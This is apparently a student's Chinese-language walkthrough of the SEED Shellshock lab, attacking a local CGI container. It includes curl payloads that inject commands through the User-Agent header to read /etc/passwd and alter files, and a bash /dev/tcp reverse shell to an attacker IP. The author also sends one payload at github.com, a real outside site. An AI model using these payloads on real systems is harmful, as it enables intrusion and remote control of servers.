





# Shellshock Attack Lab

2014年9月24日，发现bash存在严重的脆弱性。这个名为“Shellshock ”的漏洞可以利用许多系统，并可  以远程或从本地机器上启动。在这个实验室里，学生们需要研究这个攻击，这样他们才能理解贝壳冲击的脆弱性。这个实验室的学习目标是让学生获得关于这种有趣的攻击的第一手经验，了解它是如何工作的，并思考我们可以从这次攻击中得到的教训。该实验室的第一个版本是在2014年9月29日开发的，就在袭击报告发生的5天之后。2014年9月30日，它被分配给了我们的计算机安全班的学生。种子项  目的一个重要任务是快速地将真实的攻击转化为教育材料，这样教师就可以及时地将他们带入课堂，  让学生参与到现实世界中发生的事情中来。本实验室涵盖以下主题：

• Shellshock

• Environment variables

• Function defifinition in bash

• Apache and CGI programs

### 环境设置

**实验环境**：这个实验室已经在我们预构建的Ubuntu20.04VM上进行了测试，可以从SEED网站下载。由  于我们使用容器来设置实验室环境，这个实验室不太依赖SEED虚拟M。您可以使用云上的其他虚拟机、  物理机器或虚拟机来进行此实验。

#### DNS设置

在我们的设置中，web服务器容器的IP地址是`10.9.0.80`。该服务器的主机名被称为www.seedlab-shellshock.com。我们需要将这个名称映射到IP地址。请向`/etc/hosts`上添加以下内容。您需要使用root权限来修改此文件：

```c
10.9.0.80 www.seedlab-shellshock.com
```


```bash
sudo vim /etc/hosts
```


#### 容器设置及命令

> 请从实验室的网站解压缩，下载[Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/Shellshock/Labsetup.zip)  将其解压，然后将复制转移到虚拟机中。文件，然后使用docker-compose.yml文件来设置实验室环境。 可以从用户手册中找到该文件中内容和所有涉及Dockerfile的详细说明，该用户手册链接到本实验室的网站。 如果这是您第一次使用容器设置种子实验室环境，那么阅读用户手册非常重要。
>
> 在下文中，我们列出了一些与Docker相关的常用命令并撰写。 由于我们将非常频繁地使用这些命令，因此我们在.bashrc文件中为它们创建了别名（在我们提供的Seepubuntu 20.04 VM中）。

```bash
$ docker-compose build # 构建容器镜像
$ docker-compose up    # 启动容器
$ docker-compose down  # 关闭容器

// 上面命令的别名
$ dcbuild		 # Alias for: docker-compose build
$ dcup 			 # Alias for: docker-compose up
$ dcdown 		 # Alias for: docker-compose down
```

我们构建并开启docker

```bash
docker-compose build

docker-compose up
```



进入容器内部

```bash
docker ps

docker exec -it 16 /bin/bash
```


#### Web Server and CGI

在这个实验室中，我们将对web服务器容器进行贝壳冲击攻击。许多web服务器支持CGI，这是一种用于在网页和web应用程序上生成动态内容的标准方法。许多CGI程序都是shell脚本，因此在实际的CGI程序运行之前，将首先调用一个shell程序，这样的调用将由用户从远程计算机触发。如果shell程序是一个易受攻击的bash程序，我们可以利用它来获得服务器上的特权。 

在我们的web服务器容器中，我们已经设置了一个非常简单的CGI程序(称为vul.cgi)。它只需使用shell脚本打印出`Hello World`。CGI程序被放在Apache的默认CGI文件夹`/usr/lib/cgi-bin`中，并且它必须是可执行的。

```bash
#!/bin/bash_shellshock
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

CGI程序使用`/bin/bash_shellshock`（第一行），而不是使用`/bin/bash`。这一行指定应该调用什么shell程序来运行该脚本。我们确实需要在这个实验室使用脆弱的攻击。

要从Web访问CGI程序，我们可以通过输入以下URL来使用浏览器：http://www.seedlab-shellshock.com/cgi-bin/vul.cgi，或使用以下命令行程序curl来做同样的事情。请确保Web服务器容器正在运行。

```bash
$ curl http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

 

# 实验室任务

## 任务1：实验bash功能

Ubuntu20.04中的bash程序已经打上了补丁，所以它不再容易受到`shellshock`的攻击。为了这个实验目的，我们在容器(内部  `/bin`)安装了一个脆弱的bash。该程序也可以在Labsetup文件夹中找到(内部 `image_www`)。它的名字叫`bash_shellshock`，我们需要在任务中使用这个bash。您可以在容器中或直接在您的计算机上运行这个shell程序。该容器手册被链接到该实验室的网站上。

请设计一个实验来验证该冲击是否容易受到`Shell Shock`的攻击。对补丁版本`/bin/bash`进行相同的实验，并报告您的观察结果。

我们精心构造一个段攻击指令，用于ls输出文件夹下文件。

```bash
curl -A "() { :;}; echo ; /bin/ls -l" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

果然攻击成功。


我们攻击其它网址，显然是不会成功的

```bash
curl -A "() { :;}; echo ; /bin/ls -l" https://github.com/
```




## 任务2：通过环境变量传递数据

为了利用基于bash的CGI程序中的冲击漏洞，攻击者需要将他们的数据传递给脆弱的bash程序，数据需要通过环境变量传递。在这项任务中，我们需要看看如何才能实现这一目标。我们在服务器上提供了另一个CGI程序(getenv.cgi)，以帮助您确定哪些用户数据可以进入CGI程序的环境变量。这个CGI程序  打印出了它所有的环境变量。

```bash
#!/bin/bash_shellshock
echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```


### 任务2.A：使用浏览器。

 在上面的代码中，第A行将打印出当前过程中所有环境变量的内容。通常， 如果您使用浏览器访问CGI程序，您会看到类似的内容。请确定浏览器设置的环境变量值。您可以在浏览器上打开HTTP报头Live扩展，以捕获HTTP请求，并将该请求与服务器打印出的环境变量进行比较。请在实验室报告中包括您的调查结果。

```bash
****** Environment Variables ******
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) ...
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9, ...
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_ACCEPT_ENCODING=gzip, deflate
...
```



经过比对发现HTTP 请求的HOST、USER_AGENT、ACCEPT等信息均为环境变量。

### 任务2.A: 使用curl

如果我们想将环境变量数据设置为任意值，我们将不得不修改浏览器的行为， 这将是太复杂了。幸运的是，有一个名为curl的命令行工具，它允许用户控制HTTP请求中的大多数字段。这里有一些有用的选项：

1. `-v`字段可以打印出HTTP请求的头；
2. `-A`、`-e`和`-H`选项可以设置头请求中的一些字段，您需要找出每个文件设置的文件。

请在实验室报告中包括你的发现。以下是关于如何使用这些字段的示例：

```bash
$ curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
$ curl -A "my data" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
$ curl -e "my data" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
$ curl -H "AAAAAA: BBBBBB" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```






基于此实验，请描述哪些curl选项可以用来将数据注入到目标CGI程序的环境变量中。

- -A：设置用户代理（User-Agent）；
- -e：设置 HTTP 的Referer，防盗链；
- -H：添加任意的 HTTP 请求头。

## 任务3：启动Shellshock攻击

我们现在可以发动Shellshock攻击。攻击并不依赖于CGI程序中的内容，因为它的目标是bash程序，该程序  在执行实际的CGI脚本之前被调用。您的工作是通过URL http://www.seedlab-shellshock.com/cgi-bin/vul.cgi，所以您可以让服务器运行一个任意的命令。

如果您的命令有一个纯文本输出，并且您希望该输出返回给您，那么您的输出需要遵循一个协议：它应该从内容开始  Content type: text/plain，后面是一个空行，然后您可以放置纯文本输出。例如，如果您希望服务器返回其文件夹中的文件列表，则您的命令如下所示：

```bash
echo Content_type: text/plain; echo; /bin/ls -l
```

在此任务中，请使用三种不同的方法(即，三个不同的HTTP报头字段)来启动对目标CGI程序的Shellshock攻击。您需要实现以下目标。对于每个目标，您只需要使用一种方法，但是总共需要使用三种不同的方法。

- 任务3.A: 让服务器重新发送/etc/passwd文件的内容。

```bash
curl -A "() { : ;}; echo ; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```


- 任务3.B：让服务器告诉您其进程的用户ID。您可以使用/bin/id命令来打印出ID信息。

```bash
curl -A "() { : ;}; echo ; /bin/id " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```


- 任务3.C：让服务器在/tmp文件夹中创建一个文件。您需要进入容器以查看文件是否被创建，或者使用另一个shellshoc攻击来列出/tmp文件夹。

```bash
curl -A "() { : ;}; echo ; /bin/touch /tmp/skpriminfile " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

curl -A "() { :;}; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```


- 任务3.D: 让服务器删除您刚刚在/tmp文件夹中创建的文件。

```bash
curl -A "() { : ;}; echo ; /bin/rm /tmp/skpriminfile " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

curl -A "() { :;}; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```


### 问题

 请回答以下问题：

问题1：您能否从服务器上窃取影子文件的内容？为什么或为什么不呢？在任务3.B中获得的信息  应该会给你一个线索。

问题2：HTTP GET请求通常会在URL中附加数据，然后是在？记号这可能是我们可以用来发动攻击的  另一种方法。在下面的例子中，我们在URL中附加了一些数据，我们发现这些数据被用于设置以下环境变量：

```bash
$ curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?AAAAA"
...
UERY_STRING=AAAAA
...
```

我们能用这种方法来发动贝壳冲击攻击吗？请对您进行实验，并根据实验结果得出结论。


## 任务4：通过ShellShock攻击获得反向外壳

ShellShock漏洞允许攻击在目标机器上运行任意命令。在真正的攻击中，攻击者通常会选择运行一个shell命令，而不是硬编码攻击中的命令，这样只要shell程序还存在，他们就可以使用这个shell来运  行其他命令。为了实现这一目标，攻击者需要运行一个反向壳层。

反向壳是在机器上启动的壳过程，它的输入和输出由远程计算机控制。基本上，shell会在受害者的机器上运行，但它会从攻击者的机器上接收输入，并在攻击者的机器上打印其输出。反向壳牌为攻击者提供了一种方便的方式来在被破坏的机器上运行命令。关于如何创建一个反向外壳的详细说明可以在种子署的书中找到。我们还在第4节中总结了这个解释。在这个任务中，你需要演示如何使用贝壳  冲击攻击从受害者那里获得一个反向贝壳。

构建指令的部分请参考：https://www.cnblogs.com/skprimin/p/16058174.html#_label3_1_0_1

```bash
curl -A "() { echo 1; };echo;/bin/bash -i > /dev/tcp/192.168.136.143/9090 0>&1 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```


## 任务5：使用修补的bash

现在，让我们使用一个已经打过补丁的bash程序。该程序/bin/bash是一个补丁版本。请将此程序替换CGI程序的第一行。重做任务3，并描述一下你的观察结果。


重启docker，由于COPY文件部分在Dockerfile中，需要重新构建

```
docker-compose build

docker-compose up
```

随后再次运行发现，全部失效


